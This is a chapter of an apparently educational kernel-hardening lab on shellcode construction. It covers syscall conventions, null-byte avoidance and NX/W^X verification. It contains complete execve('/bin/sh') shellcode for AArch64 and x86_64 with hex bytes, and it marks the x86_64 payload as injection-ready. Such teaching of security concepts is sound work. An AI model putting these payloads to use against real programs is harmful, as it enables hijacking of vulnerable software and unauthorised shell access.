


# 04. Shellcode Engineering and Assembly Generation (Shellcode Engineering)

Analyzing the **architecture and engineering constraints of Shellcode**—pure machine opcode payloads injected by attackers to hijack the CPU instruction pointer and spawn interactive root shells. Features **AArch64 (ARM64)** as the default architecture for modern device and embedded systems security, alongside comparative analysis with **x86_64** and legacy **x86-32**.

---

## 1. Learning Objectives & Overview

- Understand that shellcode comprises raw machine opcodes directly executed by the CPU without a compiler, linker, or runtime.
- Trace the architectural evolution of Linux syscall invocation (`int 0x80` ➔ `sysenter` ➔ `syscall` / `svc #0`) and kernel dispatch internals (`pt_regs`, `sys_call_table`).
- Contrast the security implications of fixed-address legacy `vsyscall` mappings against modern ASLR-randomized `vDSO` (Virtual Dynamic Shared Object).
- Compare Linux 64-bit `execve("/bin/sh")` syscall register conventions between AArch64 (`X8=221`, `svc #0`) and x86_64 (`RAX=59`, `syscall`).
- Analyze the evolution from classical **JMP-CALL-POP (Trampolining)** to modern **PC-relative addressing** for Position-Independent Code (PIC).
- Examine null-byte (`\x00`) elimination techniques and instruction substitution mechanics.
- Inspect process memory execution permissions via `/proc/PID/maps` and verify hardware NX / W^X violation blocking.

---

## 2. Interactive Shellcode Bytecode & Architecture Inspector

Explore and compare hexadecimal bytecode instructions and register state changes between AArch64 (default) and x86_64 in the interactive tool below:

<div style="width: 100%; margin: 24px 0; border: 1px solid rgba(255,255,255,0.1); border-radius: 12px; overflow: hidden;">
  <iframe src="../../assets/diagrams/principles/04-shellcode.html" style="width: 100%; border: none; display: block; overflow: hidden;" scrolling="no" onload="try { const c = this.contentWindow.document.getElementById('diagramCanvas'); if(c) this.style.height = Math.ceil(c.getBoundingClientRect().height) + 'px'; } catch(e){}"></iframe>
</div>

---

## 3. Linux Syscall Architecture Evolution & `execve` Conventions

### 3.1 Evolution of Kernel Mode Entry Mechanisms

The hardware mechanism for transitioning control from user space (Ring 3 / EL0) to kernel space (Ring 0 / EL1) has evolved for performance and security:

| Architecture / Era | Entry Instruction | Return Instruction | Hardware Transition Mechanism |
| :--- | :--- | :--- | :--- |
| **Legacy x86 (32-bit)** | `int $0x80` | `iret` | Software interrupt via Interrupt Descriptor Table (IDT) (hundreds of clock cycles) |
| **Intel x86 (Fast Call)** | `sysenter` | `sysexit` | Model Specific Register (MSR) fast kernel entry |
| **AMD/Intel x86_64** | `syscall` | `sysret` | Direct jump via MSR `LSTAR` register (bypasses IDT lookup overhead) |
| **AArch64 (ARM64 - Default)** | `svc #0` | `eret` | Supervisor Call triggering EL0 ➔ EL1 Synchronous Exception |



### 3.2 Security Flaws in `vsyscall` vs. Modern `vDSO`

1. **`vsyscall` (Virtual System Call - Legacy)**:
   - Mapped kernel routines like `gettimeofday()` statically into fixed user space addresses (`0xffffffffff600000`) to eliminate context switch overhead.
   - **Security Vulnerability**: Its deterministic, static memory address rendered it a prime target for Return-Oriented Programming (ROP) gadgets, completely subverting ASLR. Modern Linux runs it in emulation mode (`vsyscall=emulate`) or disables it entirely.
2. **`vDSO` (Virtual Dynamic Shared Object - Modern)**:
   - Formatted as an ELF shared object dynamically mapped into user memory and passed to processes via ELF Auxiliary Vectors (`AT_SYSINFO_EHDR`).
   - **Full ASLR Protection**: Its base address is randomized on every execution, preventing deterministic gadget re-use.

### 3.3 Linux `execve` Syscall Register Conventions

The ultimate goal of an initial shellcode payload is invoking `sys_execve` to overwrite the current process with an interactive shell:

```c
int execve(const char *pathname, char *const argv[], char *const envp[]);
```

| Parameter | AArch64 (ARM64 - Default) | x86_64 (AMD64) | Legacy x86 (32-bit) |
| :--- | :--- | :--- | :--- |
| **Syscall Number** | `X8` = 221 (`0xdd`) | `RAX` = 59 (`0x3b`) | `EAX` = 11 (`0x0b`) |
| **1st Arg (`pathname`)** | `X0` = pointer to `"/bin/sh"` | `RDI` = pointer to `"/bin/sh"` | `EBX` = pointer to `"/bin/sh"` |
| **2nd Arg (`argv`)** | `X1` = `NULL (0)` | `RSI` = pointer to `["/bin/sh", NULL]` | `ECX` = pointer to `["/bin/sh", NULL]` |
| **3rd Arg (`envp`)** | `X2` = `NULL (0)` | `RDX` = `NULL (0)` | `EDX` = `NULL (0)` |
| **Syscall Trigger** | `svc #0` | `syscall` | `int $0x80` |

---

## 4. Four Core Engineering Challenges in Shellcode Construction

### 4.1 Challenge 1: Read-Only Memory Violations and W^X

Attempting to hardcode strings directly in executable segments or modifying string literals in C results in a **Segmentation Fault (SIGSEGV)**:

```c
/* String literals reside in read-only segments (.rodata / .text) */
char *shellcode = "\x31\xc0..."; 
shellcode[0] = 0x90; /* SIGSEGV! W^X violation */
```

- **W^X (Write XOR Execute)**: Memory pages cannot simultaneously hold write (`W`) and execute (`X`) permissions in hardened operating systems.
- Legacy exploit tests bypassed this via linker flags (`-Wl,-z,execstack` or `-Wl,--omagic`) to force executable data segments.

### 4.2 Challenge 2: Position-Independent Code (PIC) & Address Resolution

Injected payloads cannot predict their absolute memory location (stack or heap address) at runtime:



1. **Classical x86-32 JMP-CALL-POP (Trampoline) Technique**:
   - Exploited the CPU hardware mechanism where `CALL` **pushes the address of the next instruction (the string) onto the stack** as its return address:
   ```assembly
   jmp    get_string
   code:
   popl   %esi               ; ESI = receives pointer to "/bin/sh"!
   movl   %esi, 0x8(%esi)
   ...
   int    $0x80
   get_string:
   call   code               ; Pushes string address onto stack!
   .string "/bin/sh"
   ```
2. **Modern 64-bit Architecture Solutions**:
   - **AArch64**: Utilizes `adr x0, #20` to compute PC-relative addresses directly in hardware without requiring a trampoline.
   - **x86_64**: Constructs the string inline on the stack dynamically via `push %rbx; mov %rsp, %rdi`.

### 4.3 Challenge 3: Null-Byte (`\x00`) Elimination

Classical string manipulation functions (`strcpy()`, `gets()`, `sprintf()`) treat `0x00` as the string terminator and truncate injected payloads upon encountering the first null byte:

| Objective | Standard Instruction (Contains Nulls) | Substituted Instruction (Null-Free) |
| :--- | :--- | :--- |
| **Clear Register to 0** | `mov $0, %eax` (`b8 00 00 00 00` ➔ 4 nulls) | `xor %eax, %eax` (`31 c0` ➔ 0 nulls) |
| **Load Small Immediate** | `mov $0x3b, %eax` (`b8 3b 00 00 00` ➔ 3 nulls) | `xor %eax, %eax`<br/>`mov $0x3b, %al` (`b0 3b` ➔ 0 nulls) |
| **8-byte String Alignment** | `"/bin/sh\0"` (7 bytes + 1 padding byte) | `"/bin//sh"` (`0x68732f2f6e69622f` ➔ dual slash eliminates null) |
| **AArch64 Zeroing** | `mov x1, #0` (`01 00 80 d2` ➔ potential nulls) | `mov x1, xzr` (`e1 03 1f aa` ➔ hardware zero register) |

> [!IMPORTANT]
> **AArch64 RISC 4-Byte Fixed Encoding Realities**:
> Because all AArch64 instructions are strictly 32-bit aligned, instructions like `svc #0` (`\x01\x00\x00\xd4`) and `adr` inherently contain null bytes in their upper fields. Modern ARM exploits therefore target raw byte-stream interfaces (`read()`, `recv()`) or utilize decoder stubs rather than string-copy vectors.

### 4.4 Challenge 4: Memory Segment Permission Inspection (`/proc/PID/maps`)

Process virtual memory permissions can be inspected directly in `/proc/self/maps`:

- **Hardened Process (NX Active)**:
  - Stack: `rw-p` (Read/Write, **No Execute**)
  - Heap: `rw-p` (Read/Write, **No Execute**)
  - Code (.text): `r-xp` (Read/Execute, No Write)
- **Vulnerable Executable Stack (`-z execstack`)**:
  - Stack: `rwxp` (Read/Write/Execute allowed ➔ shellcode executes natively)

---

## 5. Architectural Shellcode Machine Code Analysis

=== "AArch64 (ARM64 - Default Target)"
    AArch64 uses a strictly aligned 4-byte fixed RISC instruction encoding:

    ```assembly
    // [1] Load relative address of "/bin/sh" string located 20 bytes forward into X0
    adr    x0, #20              // a0 00 00 10 (4 bytes)
    // [2] Clear X1 (argv) and X2 (envp) using zero register (xzr)
    mov    x1, xzr              // e1 03 1f aa (4 bytes)
    mov    x2, xzr              // e2 03 1f aa (4 bytes)
    // [3] Set syscall number to 221 (__NR_execve)
    mov    x8, #0xdd            // a8 1b 80 d2 (4 bytes)
    // [4] Enter kernel privilege via supervisor call
    svc    #0                   // 01 00 00 d4 (4 bytes)
    // [5] Embedded null-terminated string
    .string "/bin/sh"           // 2f 62 69 6e 2f 73 68 00 (8 bytes)
    ```

=== "x86_64 (AMD64 - Comparative Target)"
    x86_64 utilizes variable-length CISC encoding, enabling 100% null-free payloads:

    ```nasm
    // [1] Zero RAX without null bytes
    xor    %eax, %eax               // 31 c0 (2 bytes)
    // [2] Load 64-bit immediate string "/bin//sh"
    movabs $0x68732f2f6e69622f, %rbx// 48 bb 2f 62 69 6e 2f 2f 73 68 (10 bytes)
    // [3] Push string to stack to establish runtime pointer
    push   %rbx                     // 53 (1 byte)
    mov    %rsp, %rdi               // 48 89 e7 (RDI = &"/bin//sh")
    // [4] Push NULL and setup argv/envp
    push   %rax                     // 50 (NULL)
    mov    %rsp, %rdx               // 48 89 e2 (RDX = NULL)
    push   %rdi                     // 57 (&"/bin//sh")
    mov    %rsp, %rsi               // 48 89 e6 (RSI = argv)
    // [5] Load syscall 59 via 8-bit AL register and execute
    mov    $0x3b, %al               // b0 3b (sub-register eliminates nulls)
    syscall                         // 0f 05 (2 bytes)
    ```

---

## 6. Lab Source Code & Verification

- **Lab Source Code**: [`shellcode_tester.c`](../../assets/labs/principles/04-shellcode/shellcode_tester.c) (Local Asset) | [GitHub Source Code Repository :octicons-mark-github-16:](https://github.com/auking45/linux-kernel-hardening-lab/blob/main/labs/principles/04-shellcode/shellcode_tester.c)
- **Dedicated Makefile**: [`Makefile`](../../assets/labs/principles/04-shellcode/Makefile)

### 6.1 Inspecting Bytecode & Memory Protection

=== "AArch64 (Default Target)"
    ```bash
    cd labs/principles/04-shellcode
    make run
    ```

    ```
    === Running Shellcode Inspection on aarch64 ===
    qemu-aarch64 -L /usr/aarch64-linux-gnu ./shellcode_tester
    === Linux Kernel Hardening Lab - Shellcode Engineering ===

    ============================================================
     Shellcode Inspection [AArch64 (Default)] (Total Length: 28 bytes)
    ============================================================
    [Hex Dump]
      \xa0\x00\x00\x10\xe1\x03\x1f\xaa\xe2\x03\x1f\xaa
      \xa8\x1b\x80\xd2\x01\x00\x00\xd4\x2f\x62\x69\x6e
      \x2f\x73\x68\x00

    [Engineering Analysis]
      [-] Null-Byte Check: 5 null byte(s) detected.
          Requires byte-stream injection (read, recv, socket) or decoder stub.
    ============================================================

    ============================================================
     Shellcode Inspection [x86_64 (Comparative)] (Total Length: 28 bytes)
    ============================================================
    [Hex Dump]
      \x31\xc0\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68
      \x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6
      \xb0\x3b\x0f\x05

    [Engineering Analysis]
      [+] Null-Byte Check: PASSED (0 null bytes detected).
          Safe for injection into string-copy functions (strcpy, gets, sprintf).
    ============================================================

    ------------------------------------------------------------
     [Architectural Comparison: Syscall & Addressing Evolution]
    ------------------------------------------------------------
     1. Syscall Entry Instruction:
        - Legacy x86 (32-bit): 'int $0x80'  (Software interrupt via IDT)
        - AMD/Intel x86_64   : 'syscall'    (MSR LSTAR direct fast jump)
        - ARM / AArch64      : 'svc #0'     (Supervisor Call to EL1)

     2. String Address Resolution (Position-Independent Code / PIC):
        - Legacy x86 JMP-CALL-POP (Trampoline):
          * JMP to CALL -> CALL pushes next address onto stack -> POP into ESI.
        - Modern AArch64 (ARM64):
          * 'adr x0, #offset' directly loads PC-relative string address.
        - Modern x86_64:
          * 'movabs $0x68732f2f6e69622f, %rbx; push %rbx' pushes inline string.
    ------------------------------------------------------------

    === [Process Memory Map Protection (/proc/self/maps)] ===
      [★] Process Stack      [0x4000007fef04]: 400000001000-400000801000 rwxp 00000000 00:00 0  [stack]
      [★] Process Heap       [0x400000a3e6b0]: 400000a3e000-400000b3e000 rw-p 00000000 00:00 0  
      [★] Main Function (.text) [0x781db46512d0]: 781db4650000-781db4653000 r-xp 00000000 08:30 5325543
    ```

=== "x86_64 (Comparative Target)"
    ```bash
    cd labs/principles/04-shellcode
    make ARCH=x86_64 run
    ```

    - Inspect native 27-byte null-free payload execution and `/proc/self/maps` mappings.

### 6.2 Hardware W^X / NX Execution Blocking Verification (`--test-nx`)

Verify that jumping to a non-executable writable page (`PROT_READ | PROT_WRITE`, `rw-p`) triggers an immediate hardware `SIGSEGV`:

```bash
make run-nx
```

```
=== Testing W^X / NX Enforcement on aarch64 ===
qemu-aarch64 -L /usr/aarch64-linux-gnu ./shellcode_tester --test-nx
...
=== [W^X / NX (No-Execute) Protection Verification] ===
[*] Allocating PROT_READ | PROT_WRITE memory page (NX active, no PROT_EXEC)...
  [★] NX Buffer (rw-p)   [0x400000b3e000]: 400000a3e000-400000b3f000 rw-p 00000000 00:00 0
[*] Attempting to jump to non-executable memory at 0x400000b3e000...

============================================================
 [★] SUCCESS: SIGSEGV Caught! NX / W^X Protection Verified!
     CPU hardware page table NX bit blocked code execution.
============================================================
```

---

## 7. Summary & Next Chapter

- Shellcodes represent compact machine instructions configured specifically to trigger kernel system calls using architecture ABI registers.
- Legacy syscall interfaces (`int 0x80`, `vsyscall`) were replaced by modern `syscall` / `svc #0` and `vDSO` to optimize performance and prevent ROP re-use.
- AArch64 utilizes 4-byte fixed instructions with `adr` relative references, while x86_64 leverages variable-length CISC instructions and stack manipulation to achieve null-free payloads.
- In the next chapter, we demonstrate leveraging these principles to hijack program execution: **[05. Classic Buffer Overflow and RIP/PC Hijacking](05-stack-bof-rip.md)**.
